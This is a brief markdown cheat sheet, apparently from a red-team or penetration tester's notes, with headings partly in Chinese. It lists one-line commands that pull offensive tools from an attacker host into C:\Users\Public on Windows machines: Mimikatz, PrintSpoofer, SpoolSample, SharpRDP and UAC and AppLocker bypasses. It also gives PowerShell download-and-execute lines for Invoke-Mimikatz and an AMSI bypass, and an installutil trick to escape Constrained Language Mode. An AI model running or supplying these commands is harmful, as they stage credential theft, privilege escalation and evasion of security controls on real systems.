 __mimikatz.exe__

```
curl http://{ip}/tools/mimikatz.exe -o C:\Users\Public\mimikatz.exe
```

__PrintSpoofer.exe__

```
curl http://{ip}/tools/PrintSpoofer.exe -o C:\Users\Public\PrintSpoofer.exe
```

__SpoolSample.exe__

```
curl http://{ip}/tools/SpoolSample.exe -o C:\Users\Public\SpoolSample.exe
```

__Invoke-Mimikatz.ps1__

```
iex ((new-object net.webclient).downloadstring('http://{ip}/tools/ps1/Invoke-Mimikatz.ps1')) 
```

__lat__

```
curl http://{ip}/tools/lat.exe -o C:\Users\Public\lat.exe
```

__SharpRDP.exe__

```
curl http://{ip}/obf/SharpRDP.exe -o C:\Users\Public\SharpRDP.exe
```

> 绕过

__AMSI__
```
iex ((new-object net.webclient).downloadstring('http://{ip}/tools/ps1/amsibypass.ps1')) 
```

__SharpAppLocker.exe__
```
curl http://{ip}/obf/SharpAppLocker.exe -o C:\Users\Public\SharpAppLocker.exe
```

__SharpBypassUAC.exe__
``` cmd
curl http://{ip}/obf/SharpBypassUAC.exe -o C:\Users\Public\SharpBypassUAC.exe
```

__PsBypassCLM.exe__
``` cmd
curl http://{ip}/tools/PsBypassCLM.exe -o C:\Users\Public\PsBypassCLM.exe

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Users\Public\PsBypassCLM.exe
```

__Installutil绕过__
